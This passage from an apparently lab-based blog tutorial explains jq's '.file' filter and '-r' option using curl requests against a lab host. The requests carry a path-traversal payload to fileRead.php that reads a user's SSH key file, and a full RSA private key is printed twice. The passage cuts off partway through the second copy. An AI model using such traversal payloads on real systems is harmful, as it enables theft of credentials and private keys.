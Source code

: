 ![1544839901373](https://0xdfimages.gitlab.io/img/1544839901373.png)

When I find myself with a large, json blob of unknown structure, the first thing I’ll do is `| jq . | less` and see what it looks like.

Next, I really just want the value of the file key. If the `.` refers to the
top object, `.file` selects the file object:

    
    
    root@kali# curl -s -X POST -d "file=....//....//....//home/nobody/.ssh/.monitor" http://10.10.10.87/fileRead.php | jq .file
    "-----BEGIN RSA PRIVATE KEY-----\nMIIEogIBAAKCAQEAs7sytDE++NHaWB9e+NN3V5t1DP1TYHc+4o8D362l5Nwf6Cpl\nmR4JH6n4Nccdm1ZU+qB77li8ZOvymBtIEY4Fm07X4Pqt4zeNBfqKWkOcyV1TLW6f\n87s0FZBhYAizGrNNeLLhB1IZIjpDVJUbSXG6s2cxAle14cj+pnEiRTsyMiq1nJCS\ndGCc/gNpW/AANIN4vW9KslLqiAEDJfchY55sCJ5162Y9+I1xzqF8e9b12wVXirvN\no8PLGnFJVw6SHhmPJsue9vjAIeH+n+5Xkbc8/6pceowqs9ujRkNzH9T1lJq4Fx1V\nvi93Daq3bZ3dhIIWaWafmqzg+jSThSWOIwR73wIDAQABAoIBADHwl/wdmuPEW6kU\nvmzhRU3gcjuzwBET0TNejbL/KxNWXr9B2I0dHWfg8Ijw1Lcu29nv8b+ehGp+bR/6\npKHMFp66350xylNSQishHIRMOSpydgQvst4kbCp5vbTTdgC7RZF+EqzYEQfDrKW5\n8KUNptTmnWWLPYyJLsjMsrsN4bqyT3vrkTykJ9iGU2RrKGxrndCAC9exgruevj3q\n1h+7o8kGEpmKnEOgUgEJrN69hxYHfbeJ0Wlll8Wort9yummox/05qoOBL4kQxUM7\nVxI2Ywu46+QTzTMeOKJoyLCGLyxDkg5ONdfDPBW3w8O6UlVfkv467M3ZB5ye8GeS\ndVa3yLECgYEA7jk51MvUGSIFF6GkXsNb/w2cZGe9TiXBWUqWEEig0bmQQVx2ZWWO\nv0og0X/iROXAcp6Z9WGpIc6FhVgJd/4bNlTR+A/lWQwFt1b6l03xdsyaIyIWi9xr\nxsb2sLNWP56A/5TWTpOkfDbGCQrqHvukWSHlYFOzgQa0ZtMnV71ykH0CgYEAwSSY\nqFfdAWrvVZjp26Yf/jnZavLCAC5hmho7eX5isCVcX86MHqpEYAFCecZN2dFFoPqI\nyzHzgb9N6Z01YUEKqrknO3tA6JYJ9ojaMF8GZWvUtPzN41ksnD4MwETBEd4bUaH1\n/pAcw/+/oYsh4BwkKnVHkNw36c+WmNoaX1FWqIsCgYBYw/IMnLa3drm3CIAa32iU\nLRotP4qGaAMXpncsMiPage6CrFVhiuoZ1SFNbv189q8zBm4PxQgklLOj8B33HDQ/\nlnN2n1WyTIyEuGA/qMdkoPB+TuFf1A5EzzZ0uR5WLlWa5nbEaLdNoYtBK1P5n4Kp\nw7uYnRex6DGobt2mD+10cQKBgGVQlyune20k9QsHvZTU3e9z1RL+6LlDmztFC3G9\n1HLmBkDTjjj/xAJAZuiOF4Rs/INnKJ6+QygKfApRxxCPF9NacLQJAZGAMxW50AqT\nrj1BhUCzZCUgQABtpC6vYj/HLLlzpiC05AIEhDdvToPK/0WuY64fds0VccAYmMDr\nX/PlAoGAS6UhbCm5TWZhtL/hdprOfar3QkXwZ5xvaykB90XgIps5CwUGCCsvwQf2\nDvVny8gKbM/OenwHnTlwRTEj5qdeAM40oj/mwCDc6kpV1lJXrW2R5mCH9zgbNFla\nW0iKCBUAm5xZgU/YskMsCBMNmA8A5ndRWGFEFE+VGDVPaRie0ro=\n-----END RSA PRIVATE KEY-----\n"
    

### -r

That result still has all `\n` and other escaped characters. That’s where the
`-r` parameter comes in.

> With this option, if the filter’s result is a string then it will be written
> directly to standard output rather than being formatted as a JSON string
> with quotes. This can be useful for making jq filters talk to non-JSON-based
> systems.
    
    
    root@kali# curl -s -X POST -d "file=....//....//....//home/nobody/.ssh/.monitor" http://10.10.10.87/fileRead.php | jq -r .file
    -----BEGIN RSA PRIVATE KEY-----
    MIIEogIBAAKCAQEAs7sytDE++NHaWB9e+NN3V5t1DP1TYHc+4o8D362l5Nwf6Cpl
    mR4JH6n4Nccdm1ZU+qB77li8ZOvymBtIEY4Fm07X4Pqt4zeNBfqKWkOcyV1TLW6f
    87s0FZBhYAizGrNNeLLhB1IZIjpDVJUbSXG6s2cxAle14cj+pnEiRTsyMiq1nJCS
    dGCc/gNpW/AANIN4vW9KslLqiAEDJfchY55sCJ5162Y9+I1xzqF8e9b12wVXirvN
    o8PLGnFJVw6SHhmPJsue9vjAIeH+n+5Xkbc8/6pceowqs9ujRkNzH9T1lJq4Fx1V
    vi93Daq3bZ3dhIIWaWafmqzg+jSThSWOIwR73wIDAQABAoIBADHwl/wdmuPEW6kU
    vmzhRU3gcjuzwBET0TNejbL/KxNWXr9B2I0dHWfg8Ijw1Lcu29nv8b+ehGp+bR/6
    pKHMFp66350xylNSQishHIRMOSpydgQvst4kbCp5vbTTdgC7RZF+EqzYEQfDrKW5
    8KUNptTmnWWLPYyJLsjMsrsN4bqyT3vrkTykJ9iGU2RrKGxrndCAC9exgruevj3q
    1h+7o8kGEpmKnEOgUgEJrN69hxYHfbeJ0Wlll8Wort9yummox/05qoOBL4kQxUM7
    VxI2Ywu46+QTzTMeOKJoyLCGLyxDkg5ONdfDPBW3w8O6UlVfkv467M3ZB5ye8GeS
    dVa3yLECgYEA7jk51MvUGSIFF6GkXsNb/w2cZGe9TiXBWUqWEEig0bmQQVx2ZWWO
    v0og0X/iROXAcp6Z9WGpIc6FhVgJd/4bNlTR+A/lWQwFt1b6l03xdsyaIyIWi9xr
    xsb2sLNWP56A/5TWTpOkfDbGCQrqHvukWSHlYFOzgQa0ZtMnV71ykH0CgYEAwSSY
    qFfdAWrvVZjp26Yf/jnZavLCAC5hmho7eX5isCVcX86MHqpEYAFCecZN2dFFoPqI
    yzHzgb9N6Z01YUEKqrknO3tA6JYJ9ojaMF8GZWvUtPzN41ksnD4MwETBEd4bUaH1
    /pAcw/+/oYsh4BwkKnVHkNw36c+WmNoaX1FWqIsCgYBYw/IMnLa3drm3CIAa32iU
    LRotP4qGaAMXpncsMiPage6CrFVhiuoZ1SFNbv189q8zBm4PxQgklLOj8B33HDQ/
    lnN2n1WyTIyEuGA/qMdkoPB+TuFf1A5EzzZ0uR5WLlWa5nbEaLdNoYtBK1P5n4Kp
    w7uYnRex6DGobt2mD+10cQKBgGVQlyune20k9QsHvZTU3e9z1RL+6LlDmztFC3G9
    1HLmBkDTjjj/xAJAZuiOF4Rs/INnKJ6+QygKfApRxxCPF9NacLQJAZGAMxW50AqT